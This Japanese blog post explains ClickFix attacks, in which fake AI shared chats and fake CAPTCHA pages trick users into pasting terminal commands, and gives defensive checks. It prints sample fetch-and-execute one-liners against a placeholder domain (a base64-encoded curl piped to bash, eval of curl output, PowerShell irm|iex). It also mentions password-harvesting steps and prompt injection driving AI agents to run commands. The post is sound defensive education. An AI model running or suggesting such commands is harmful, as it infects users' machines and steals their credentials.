

## はじめに

エラーが出て困っているときに、AIの回答の中に「次のコマンドを実行してください」と書いてあったら、そのままターミナルに貼ってしまいませんか。急いでいるときほど、中身を読まずに貼りたくなるものだと思います。

最近、この「AIが教えてくれたコマンドを、人が自分の手で実行する」流れを悪用する攻撃が、セキュリティ企業から報告されています。ClickFix（クリックフィックス）と呼ばれる手口です。

この記事では、報告されている事例を整理したうえで、手元でできる3つの確認を、一緒に整理していきます。なお、確認できた事実と、確認できなかったことは、きちんと分けて書きます。

## 対象者

- ChatGPTやClaudeなどの回答に書かれたコマンドを、ターミナルに貼って実行することがある方
- Claude Code などのAIコーディングツールを、日常的に使っている方
- 「AIの共有リンクやAIの回答だから安全だろう」と、なんとなく思っている方

## ClickFixとは

ClickFixは、偽のエラー画面や偽の確認画面（「私はロボットではありません」など）を見せて、利用者自身にコマンドをコピーして実行させる手口です。Microsoftのセキュリティブログ（2025年8月21日）では、利用者自身が実行するため、従来の自動の防御をすり抜けうる手口として説明されています。同じブログで、Microsoftは2024年3月から6月にかけて、この手口を最初に観測したとしています。

警察庁の「サイバー警察局便り」（2025年10月）でも、ClickFixが取り上げられています。Windowsキー + R を押し、貼り付けて、Enterを押すという手順を示して、注意を呼びかけています。

やっかいなのは、悪意のあるプログラムを、利用者が自分で起動してしまうことです。平たく言えば、ファイルをダウンロードさせるわけではないので、「怪しいファイルは開かない」という注意だけでは、防ぎきれないと思います。

## AIの画面を使った実際の報告

ここ1年ほどで、このコマンドの出どころが「AIの回答画面」になった事例が、複数の企業から報告されています。確認できたものを、表にまとめます。


| 公表時期       | 報告元                      | 対象      | 流れ                                                                                                                                    |
| ---------- | ------------------------ | ------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| 2025年12月   | Huntress                 | macOS   | Macの整理方法を検索すると、攻撃者が作ったChatGPTやGrokの共有会話が検索結果の上位に出る。「安全なクリーンアップ」としてターミナルのコマンドを実行させ、情報を盗むマルウェア（AMOS）に感染させる                              |
| 2026年5月〜6月 | Malwarebytes、Trend Micro | macOS   | 検索広告から、claude.ai の共有チャットに誘導する。共有チャットが「Claude Code on Mac」などの導入手順を装い、コマンドを実行させる。Trend Microによれば、SSH鍵や暗号資産のファイルも盗む機能があり、報告後に共有会話は無効化された |
| 2026年9月    | Huntress                 | Windows | 検索のスポンサー枠から、悪意のあるCustom GPTに誘導する。GPTは「障害のため別のドメインへ」と案内するだけで、コマンドは出さない。遷移先の偽のCAPTCHA画面が、PowerShellのコマンドを実行させる                          |


流れを図にすると、次のようになります。



これらの報告から見えてくるのは、AIが勝手に悪意のあるコマンドを出したというより、攻撃者が作った会話や画面が、本物のドメイン（chatgpt.com や claude.ai）の上で公開されている、という形のようです。

ドメインが本物であっても、中身が安全とは限らない、という点は、頭の片隅に置いておきたいところです。

:::message
この記事で確認できなかったことがあります。調べた範囲では、次の3つは、一次情報で確認できませんでした。

- Custom GPT自身が「ターミナルで実行してください」と指示する事例。確認できたCustom GPTの事例では、コマンドを出すのは遷移先のページでした
- Linuxで、AIの画面を使ったClickFixが確認された事例
- AIエージェントがClickFixに引っかかって、実際に被害が出た事例。近いものとしては、研究者が2025年5月に公開した検証があります。画面を操作するAIエージェントが、偽のページでコピーされたコマンドを、ターミナルに貼って実行した、という実験です。実際の攻撃として観測されたものではなく、使われたモデルも、現在のものより前の世代です

「確認できなかった」は、「存在しない」という意味ではありません。ただ、確認できていないことを、確認できたことのように書くのは避けたいと考えました。
:::

## 手元でできる3つの確認

### 1. 出どころの分からないコマンドは、貼らずに公式の手順で確かめる

検索広告やスポンサー枠のリンクから開いたページに書いてある手順は、そのまま実行せず、公式サイトを直接開いて、同じ手順が載っているかを確認しておくと安心です。

- 広告のダウンロードリンクではなく、公式サイトのアドレスを自分で入力して開く（Trend Micro、Malwarebytesの推奨）
- 公式のパッケージマネージャ（brew、npm、pip、aptなど）で入れられるものは、そちらを使う（Trend Microの推奨）
- 理解できないコマンドや、パスワードの入力を求めるユーティリティは、実行しない（Huntressの推奨）

「AIの共有リンクだから信頼できる」と思い込まないようにしたいところです。Trend Microも、gitlab.io や claude.ai のような信頼されているドメインでも悪用されうる、と注意しています。

なお、公式の導入手順そのものが、`curl ... | bash` の形をしている場合もあります。この形が、それだけで悪いわけではありません。見るべきなのは、その手順をどこで見つけたかです。検索広告や共有会話ではなく、公式ドキュメントを自分で開いて見つけた手順かどうかを、基準にするとよいと思います。

### 2. 貼る前に、コマンドの中身を読む。端末側の警告も使う

読んでも分からないものは、実行しないでおくのが安心です。特に、次の3つの形が入っているときは、手を止めて確認したいところです。以下のコマンドは、どれも動かない見本です（`example.invalid` は、実在しないドメインです）。貼って試さないでください。

#### 意味の読み取れない長い文字列（Base64など）が入っている

英数字が長く並び、末尾が `=` や `==` で終わる文字列を、デコードして、そのまま bash に渡す形です。

```bash
echo "Y3VybCAtcyBodHRwczovL2V4YW1wbGUuaW52YWxpZC9hLnNoIHwgYmFzaA==" | base64 -d | bash
```

中身が読めないまま、実行されてしまいます。この見本の文字列をデコードすると、次の内容になります。

```bash
curl -s https://example.invalid/a.sh | bash
```

確認するだけなら、最後の `| bash` を外して、デコードした結果を画面に表示して読みます。

```bash
echo "Y3VybCAtcyBodHRwczovL2V4YW1wbGUuaW52YWxpZC9hLnNoIHwgYmFzaA==" | base64 -d
```

#### ネットワークから取得したものを、そのまま実行する形になっている

取得した内容を、読む前に実行してしまう書き方です。シェルによって、書き方はいくつかあります。

```bash
curl -fsSL https://example.invalid/fix.sh | bash
bash <(curl -s https://example.invalid/fix.sh)
eval "$(curl -s https://example.invalid/fix.sh)"
```

Windows のPowerShellでは、次のような形です。

```powershell
irm https://example.invalid/fix.ps1 | iex
```

どれも、取得した中身を一度も読まずに、実行されます。確認したいときは、いったんファイルとして保存して、中身を読んでから実行します。

```bash
curl -fsSLo fix.sh https://example.invalid/fix.sh
less fix.sh
```

#### 入力画面で、パスワードを求められる

macOS向けの報告では、Huntressが、端末側で見つけるための手がかりとして、次のような動きを挙げています。

- `osascript` で入力のダイアログを出して、パスワードを入力させる
- `dscl . -authonly` で、入力されたパスワードが正しいかを確かめる
- `sudo -S` で、パスワードを標準入力から渡す

貼ったコマンドの中に、こうした記述が見えたり、貼ったあとに見覚えのないパスワードの入力画面が出たりしたときは、そこで止めておくと安心です。なお、正規のインストーラーが、ターミナルで管理者のパスワードを聞くことはあります。公式の手順に、その案内があるかどうかも、あわせて確認してみてください。

#### 端末側の設定

端末側でできる設定もあります。

- Windows Terminal の、複数行を貼り付けるときの警告を、無効にしていないか確認する。Microsoftが、ClickFix対策の1つとして挙げています。公式ドキュメントでは、この警告の設定は既定で有効とされています。ただし、警告の対象は複数行のテキストなので、1行のコマンドには働かないと考えられます。また、Windowsキー + R の入力欄への貼り付けは、Windows Terminal を通らないため、この警告は出ません
- 組織の管理者向けの対策として、Windowsキー + R の「ファイル名を指定して実行」を、必要のないユーザーから外す。こちらもMicrosoftが推奨している対策で、グループポリシーなどで設定します
- macOS Tahoe 26.4 以降には、ターミナルへの貼り付けを警告する機能があると、Malwarebytesなどが報じています。ただし、Appleの公式な説明は見つけられておらず、すべてのコマンドを検知するわけではない、とも報じられています

### 3. AIエージェントが出したコマンドを、人の確認なしで実行させない

Claude Code のようなAIコーディングツールは、許可の設定によっては、AIが出したコマンドを、確認なしで手元のシェルで実行できます。便利な反面、AIが読んだ外部のページや文書に紛れた指示で、意図しないコマンドが出る可能性もあります。この点は、[プロンプトインジェクションの記事](https://zenn.dev/ykbone/articles/202609-prompt-injection)や、[Excessive Agencyの記事](https://zenn.dev/ykbone/articles/202609-security-excessive-agency)でも取り上げています。

先ほど書いたとおり、AIエージェントがClickFixに引っかかった実例は、私の調べた範囲では、観測された攻撃としては確認できていません。そのうえで、事前の備えとして、次のようなことを確認しておくと安心です。

- 自分の環境で、コマンドの実行前に確認が入る設定になっているかを、公式ドキュメントの権限モードの説明で確認する。モードによっては、確認を別の仕組みが代行します
- 許可するコマンドは、用途を絞って必要なものだけにする。特に、`curl` や `wget` のように、取得したものをそのまま実行する形につながりやすいコマンドは、許可の一覧に入れない
- サンドボックスは、有効にする設定をして初めて使えます。また、既定の設定では、`~/.ssh` などの読み取りも許可されうるため、読ませたくない場所は、読み取りの拒否設定で明示しておくと安心です
- 手元の `.env` に、本番の秘密情報を保存しない。[前回の記事](https://zenn.dev/ykbone/articles/202611-security-ai-local-secrets)で書いた「手元に実値を置かない」が、そのまま被害を小さくします
- SSH鍵には、パスフレーズを設定する

被害が起きたあとでは、手元の鍵やパスワードを、すべて取り替える作業が必要になってしまいます。事前に「保存しない」「読めるファイルと接続先を制限する」ことが、いちばん手間の少ない対策だと考えています。

ただ、全部を一度にそろえようとしなくて大丈夫です。まずは、いま使っているツールの権限モードを確かめるだけでも、見え方がずいぶん変わると思います。

## まとめ


| 確認すること       | 具体的な行動                           | 防げるもの                      |
| ------------ | -------------------------------- | -------------------------- |
| 1. 出どころ      | 公式サイトを直接開いて、同じ手順があるか確かめる         | 偽の共有会話や広告から、コマンドを貼らされること   |
| 2. 中身と端末の設定  | 貼る前に読む。複数行の貼り付け警告を、無効にしていないか確認する | 中身を読まずに、そのまま実行してしまうこと      |
| 3. エージェントの権限 | 実行前の確認の設定を見直し、読めるファイルと接続先を制限する   | AIが出したコマンドで、手元の秘密情報が読まれること |


## おわりに

AIの回答に書いてあったからと安心してしまいますが、AIが悪意のあるコマンドを出すことを心配する方も、多いのではないでしょうか。

ところが、今回、公開されている報告を読んでいくと、確認できた事例で目立つのは、本物のドメインの上に、攻撃者が作った手順が公開されているという形でした。AIそのものよりも、「どこで見つけた手順なのか」を確かめることが、大切なようです。

本記事が、コマンドを貼る前に、いったん手を止めるきっかけになれば幸いです。

---

## 株式会社ONE WEDGE

【ITエンジニアに、IT業界に貢献する企業】
株式会社ONE WEDGEは、Webシステム開発・SES・AI/DX支援を行うIT企業です。生成AIを活用した業務効率化や次世代システム開発にも注力しており、企業の課題解決だけでなく、エンジニア一人ひとりの成長にも本気で向き合っています。また、技術は「一人で学ぶもの」ではなく「仲間と成長するもの」と考え、社内外でのコミュニティづくりにも力を入れています。

[https://onewedge.co.jp/](https://onewedge.co.jp/)